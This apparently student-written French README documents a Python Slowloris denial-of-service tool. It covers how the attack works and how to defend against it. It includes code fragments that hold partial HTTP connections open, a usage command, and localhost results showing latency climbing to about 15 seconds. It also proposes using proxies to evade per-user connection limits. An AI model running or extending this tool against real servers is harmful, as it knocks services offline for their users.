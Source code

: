 # Python pour la securite
  - ### [1. Introduction](#1-Introduction)
  - ### [2. Fonctionnement](#2-Fonctionnement)
  - ### [3. Resultat](#2-Resultat)
  - ### [4. Difficultees rencontrees](#4-Difficultees-rencontrees)
  - ### [5. Ameliorations](#5-Ameliorations)
  - ### [6. Conclustion](#6-Conclusion)

---
## 1. Introduction

 L'attaque slow loris permet de faire un ddos sur un serveur en se servant que d'une seule machine. 
 Slowloris essaie de garder le maximum de connexions ouvertes avec le webserver cible et essaie de les garder ouvertes aussi longtemps que possible. 
 Dès que le slowloris a ouvert une connection il va garder la garder ouverte en envoyant des requêtes incomplètes qu'il va compléter lentement au fur et à mesure mais ne les finira jamais. 
 Les serveurs affectés verront leur nombre maximum de connections atteint et peuvent refuser les nouvelles connections d'utilisateurs.
Les serveurs majoritairement touchés par l'attaque slowloris sont:
- Apache 1.x and 2.x
- dhttpd
- Flask

Il existe des modules pour apache qui permetent de réduire la chance d'une attaque slowloris tel que: 
- mod_limitipconn
- mod_qos, mod_evasive
- mod security
- mod_noloris
- mod_antiloris

Il existe d'autres méthodes pour se protéger tel qu'installer un:
- reverse proxy
- firewall
- load balancer
- content switches

Si aucune de ces solutions n'est envisageable il est toujours possible de placer son webserver derrière un nginx ou lighthttpd qui ne sont pas affectés par cette attaque.

---
## 2. Fonctionnement
Afin de faire fonctionner ce programme, il est necessaire d'installer certaines dependances. Les commandes a executer pour avoir un environnement d'execution sont les suivantes :
 * `virtualenv env`
 * `source env/bin/activate`
 * `pip install -r requirements.txt`

 Ensuite il est possible de choisir certaines options:
 - a: Host to perform attack on, default localhost
 - p: Port of the server, default = 80
 - s: Max socket to use
 - d: Debug mode


 Dans un premier temps, il est necessaire de recuperer le type de serveur que l'on souhaite attaquer : 
 * Par exemple, un serveur apache 1.x/2.x permettra une attaque optimal.
 * A contrario, attaquer un WebServeur tournant avec le framework NodeJS a partir de la version 8 est inutile

 Pour recuper le type de serveur, on envoie une requete get : </br>
 * `sock.send("GET / HTTP/1.1\r\n\r\n".encode("ascii"))`</br>

Puis on analyse le retour </br>
*  `HTTP/1.1 400 Bad Request
Date: Wed, 10 Jul 2019 16:18:53 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1
`

Pour l'initialisation des sockets on envoie trois requêtes:
```Python
s.send("GET /?{} HTTP/1.1\r\n".format(random.randint(0, 2000).encode("utf-8"))
s.send("User-Agent: {}\r\n".format(ua.USER_AGENT[random.randin(0,29)]).encode("utf-8"))
s.send("{}\r\n".format("Accept-language: en-US,en,q=0.5".encode("utf-8"))
```
Dans l'ordre:
- La première initialise la connection
- La deuxième envoie le user agent utilisé choisi aléatoirement dans la pool des user agents.
- La troisième dit quelles sont les langues acceptées.

-> A l'initialisation le slowloris va essayer d'initier autant de connections que l'on a demandé.

Il va ensuite les garder en vie en les complétant toutes les 15 secondes avec:
```Python
s.send("X-a: {}\r\n".format(random.randint(1, 5000)).encode("utf-8"))
```
Il va ensuite essayer à nouveau d'ouvrir des connections jusqu'à atteindre la limite que l'on a fixé.
 ```Python
 for _ in range(self.target_info.sockets_number - len(self.sockets_list)):
    try:
        s = self.init_socks()
        if s:
            self.sockets_list.append(s)
```
Par la suite le slowloris va calculer la latence en faisant une requête dans un thread à part.

```Python
response = requests.get(self.url).elapsed.total_seconds()
```
La request fait un get sur l'host rentree par l'utilisateur et recupere le temps entre l'envoie et la reponse de la requete.


---

## 3. Resultat
Les resultat ci dessous ont ete effectue sur un serveur Apache avec la configuration initiale.</br>
Le programme fut lance avec la commande suivante : `python src/main.py -a 127.0.0.1 -s 1000`


Dans un premier temps la console nous affiche que l'on se trouvre sur un seveur Apache, ce qui est parfait pour notre attaque : 
> `[127.0.0.1] server running with Apache, best configuartion for this attack`

Dans un second temps, on affiche la latence initial :
> `[Latency] -- 0.002142`

On remarque donc que le temps de latence est relativement faible. </br></br>
Ensuite on initialise le maximum de socket 
> `279 connections 1000 initialised`

On remarque ici que l'on a reussi a initialiser seulement 279 sockets sur les 1000 prevu, on essaie maintenant de les garder ouvertes le plus longtemps possible.

Apres 15 secondes, on essaie d'en recreer afin d'atteindre les 1000
> `try recreating sockets`

Apres 5 minutes, on peut voir que l'on a 408 sockets qui sont ouvertes
> ` 408 connections 1000 initialised `

On remarque aussi une latence de 15 secondes, preuve que le deni de service fonctionne.
> `[Latency] -- 15.80608   `

Apres 10 minutes, on stop le programme, on peut donc voir une latence moyenne de 14.7 secondes.
> `Average latency = 14.702567199999999`


---

[Just a moment...](https://cdn1.imggmi.com/uploads/2019/7/10/cca68682fe9aa44435fa77cb9439f596-full.png)
On peut voir en haut le spinner qui tourne et en bas la requête connexion

Egalement quand on essaie de lancer un autre slowloris sur le même serveur alors qu'il y a déjà un slowloris qui tourne celui-ci ne marche pas car il n'arrive pas à établir une nouvelle connection.

```Bash
(env) ➜  slowAttack git:(master) ✗ python src/main.py -a 127.0.0.1
19:30:51 - Slow Loris Attack Started
19:30:54 - No Webserver detected, please verify your target adresse
```


## 4. Difficultees rencontrees

La principale difficultees fut d'ordre materiel, en essayant l'attaque sur un serveur distant, la box internet ma "banni", il etait impossible d'acceder a aucun site web en dehors, impossible d'utiliser un dns.

La seconde difficultee fut de comprendre que les serveur nodes n'etaient pas affectees. Le programme semblait fonctionel mais aucun ralentissement ne fut observé. Ensuite installer un serveur apache est un defi de taille.

Hormis cela, aucune difficultée majeures ne fut rencontrées.


## 5. Ameliorations
Les améliorations possibles sont nombreuses:
- Détection automatique du serveur et optimisation des paramètres.
- Détection automatique du timeout serveur pour les requêtes.
- Détection du nombre de connection maximum du serveur pour pouvoir choisir le niveau de ddos que l'on veut (un peu, beaucoup, moyen)
- Utilisation de proxy pour permettre d'ouvrir un plus grand nombre de connections quand il y a un nombre limité par utilisateur.

## 6. Conclusion
>L'attaque du slowloris est une attaque très intéressante si jamais le serveur web est vulnérable à cette attaque car elle permet à un seul ordinateur de facilement ddos un serveur.
Cependant il s'avère qui est facile de se protéger face à ses attaques en implémentant quelques règles: nombres de socket par utilisateur limités, firewall, reverse proxy, etc.
